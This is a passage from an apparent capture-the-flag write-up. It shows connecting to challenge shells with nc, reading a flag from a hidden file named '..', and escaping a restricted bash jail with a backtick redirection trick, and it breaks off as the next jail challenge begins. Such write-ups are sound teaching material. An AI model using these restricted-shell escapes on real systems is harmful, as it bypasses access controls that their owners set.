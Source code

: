 Connecting to the endpoint, we see we get what looks like a shell:

{% highlight bash %}
nc jh2i.com 50026
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
user@host:/home/user$
{% endhighlight %}

If we inspect the user's directory, we see two entries for `..` (usually the next directory up):

{% highlight bash %}
nc jh2i.com 50026
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
user@host:/home/user$ ls
ls
user@host:/home/user$ ls -a
ls -a
.
..
..
user@host:/home/user$ cat .*
cat .*
cat: .: Is a directory
cat: ..: Is a directory
flag{we_should_have_been_worried_about_u2k_not_y2k}
{% endhighlight %}

Flag is `flag{we_should_have_been_worried_about_u2k_not_y2k}`.

&nbsp;
&nbsp;

## Alkatraz
> We are so restricted here in Alkatraz. Can you help us break out?

Connecting to the endpoint, looks like we're in a bash jail. [This page](http://blog.dornea.nu/2016/06/20/ringzer0-ctf-jail-escaping-bash/) has some good resources for techniques in bash jail.

{% highlight bash %}
`<flag.txt`
/bin/rbash: line 24: flag{congrats_you_just_escaped_alkatraz}: command not found
{% endhighlight %}

Flag is `flag{congrats_you_just_escaped_alkatraz}`.

&nbsp;
&nbsp;

## Trapped
> Help! I'm trapped!

Another bash jail:
